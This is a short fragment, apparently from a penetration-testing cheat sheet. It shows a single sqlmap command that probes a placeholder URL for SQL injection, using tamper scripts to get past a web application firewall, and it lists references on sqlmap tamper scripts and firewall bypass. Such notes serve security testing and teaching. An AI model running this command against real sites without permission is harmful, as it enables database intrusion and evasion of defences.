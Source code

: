 sqlmap -u "https://example.com/delete.php?id=1" --level=1 --risk=1 --tamper space2comment,randomcomments

# **References**

- [https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3)
- [https://github.com/sqlmapproject/sqlmap/blob/master/tamper/](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/)

